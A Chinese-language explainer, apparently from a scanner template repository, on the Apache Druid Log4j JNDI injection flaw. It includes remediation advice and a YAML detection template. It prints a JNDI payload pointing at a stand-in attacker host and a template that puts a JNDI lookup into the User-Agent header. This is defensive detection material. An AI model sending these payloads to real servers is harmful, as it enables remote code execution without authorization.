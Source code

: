 
## 相关案例举例：Apache Druid Log4j 命令注入漏洞

### 漏洞简介

以 [`apache-druid-log4j.yaml`](../apache-druid-log4j.yaml) 为例，Apache Druid 在特定配置和版本下，因集成了受影响的 Log4j 组件，存在命令注入风险。攻击者可通过构造恶意请求，利用 Log4j 的 JNDI 注入特性，最终在目标服务器上执行任意命令。

### 漏洞原理说明

该漏洞属于典型的命令注入场景。Log4j 在处理日志消息时，如果日志内容中包含特定的 JNDI 语法（如 `${jndi:ldap://attacker.com/a}`），会自动发起远程请求并加载恶意类，导致远程代码执行。攻击者只需将恶意 payload 注入到日志参数中（如 HTTP 请求头、参数等），即可触发漏洞。

这种类型的漏洞与命令注入的本质一致：都是由于应用程序未对用户输入进行严格校验，导致攻击者能够控制底层命令或代码的执行流程。

### 检测逻辑举例（YAML内容解析）

以下为该漏洞的检测YAML片段示例：

```yaml
id: apache-druid-log4j

http:
  - method: GET
    path:
      - "{{BaseURL}}/druid/indexer/v1/sampler"
    headers:
      User-Agent: "${jndi:ldap://{{interactsh-url}}/a}"
    matchers:
      - type: word
        part: interactsh_protocol
        words:
          - "ldap"
```

**检测流程说明：**

1. **请求方式**：GET，目标路径为 `/druid/indexer/v1/sampler`。
2. **关键Header**：设置 `User-Agent` 为 `${jndi:ldap://{{interactsh-url}}/a}`，利用 JNDI 注入特性。
3. **响应匹配**：通过 OOB（Out-Of-Band）交互平台（如 interactsh）检测是否有 LDAP 请求回连，判定目标存在该漏洞。

### 修复建议

- 升级 Apache Druid 及其依赖的 Log4j 组件至官方修复版本。
- 禁用 Log4j 的 JNDI 功能，或限制其加载远程类的能力。
- 对所有用户输入进行严格校验，避免日志记录敏感或可控内容。

